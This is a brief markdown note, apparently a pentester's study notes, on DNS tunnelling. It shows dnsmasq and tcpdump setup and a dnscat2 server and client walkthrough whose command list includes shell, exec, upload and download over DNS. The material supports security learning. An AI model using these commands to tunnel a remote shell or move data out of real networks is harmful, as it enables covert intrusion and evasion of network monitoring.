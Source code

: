 # DNS Tunnelling

[[DNS]] Tunnelling


Beware the `dnsmasq.conf` read carefully and understand what is defined and if the  configuration ignores `/etc/hosts` or `/etc/resolv.conf  
```
sudo dnsmasq -C dnsmasq.conf -d
resolvectl status
```

```
sudo tcpdump -i ens192 udp port 53
```

```bash
nslookup -type=txt $domain
```

`dnscat2`
```bash
dnscat2-server $domain
# press [RETR] after message: `Of course, you have to figure out the server yourself! Clients will connect directly on UDP 53.
# The prompt will be displayed as written below, which accept commands
dnscat2>
# List all active windows
dnscat2> windows
# Interactive with a window
dnscat2> window -i $number
# Command session.. and running the `help` command
comand ($hostThatRanClient) 1> help
Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows

```

From  the client
```bash
./dnscat $domain
```